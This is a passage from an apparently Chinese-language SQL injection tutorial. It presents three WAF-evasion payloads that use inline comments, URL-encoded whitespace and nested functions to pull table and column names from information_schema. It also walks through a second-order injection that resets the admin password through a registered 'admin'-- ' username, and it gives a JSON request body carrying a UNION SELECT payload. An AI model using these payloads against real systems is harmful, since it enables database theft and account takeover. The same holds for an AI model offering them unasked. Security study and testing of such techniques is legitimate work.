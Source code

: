 **绕过方案1：注释分割法**：
```sql
UNION/**/SELECT/*!50000NULL,
/*!table_name*/,/*!column_name*/ 
FROM information_schema./*!columns*/ 
WHERE table_schema=/*!DATABASE*/()
```
通过`/**/`和`/*! */`内联注释分割关键词，规避连续关键词检测。

**绕过方案2：编码混淆+空白符干扰**：
```sql
U%0a%09NION%0dSELECT%a0
NUL%4cL,TABLE%5fNAME,
COLUMN%5fNAME%20 
FRO%0bm info%0for%0dmation_schema.colu%6dns
```
结合URL编码（`%0a`换行、`%09`Tab）和部分字符编码（`_`→`%5f`），打乱关键词结构。

**绕过方案3：函数嵌套+逻辑干扰**：
```sql
UNION SELECT 
IF(1=1,NULL,NULL),
REVERSE(SUBSTRING(REVERSE((SELECT table_name 
FROM information_schema.tables LIMIT 1)),1)),
(SELECT column_name FROM (SELECT 1,2,3 
UNION SELECT * FROM information_schema.columns) t 
WHERE 1=1 AND 2=2)
```
通过`REVERSE()`和`SUBSTRING()`嵌套变形，结合子查询干扰WAF语法分析。

## 第六章：特殊场景注入技巧
### 6.1 二次注入漏洞利用
二次注入指恶意数据先被存储到数据库，后续被程序读取并拼接SQL执行时触发注入，常见于用户注册、资料修改功能：

```markdown
1. 注册阶段：提交包含恶意代码的用户名`admin'-- `
   数据库存储的用户名实际为`admin'-- `（单引号未被过滤）
   
2. 触发阶段：管理员执行"修改密码"操作，后端执行SQL：
   UPDATE users SET password='new_pass' 
   WHERE username='$_POST[username]'
   
3. 实际执行的SQL：
   UPDATE users SET password='new_pass' 
   WHERE username='admin'-- '
   注释符`-- `导致后续条件被忽略，成功修改`admin`用户密码
```

### 6.2 JSON注入漏洞
随着API接口广泛使用JSON格式，若后端直接拼接JSON数据到SQL查询，将引发注入：

```json
POST /api/search HTTP/1.1
Content-Type: application/json

{"query": "1' UNION SELECT @@version -- "}
```
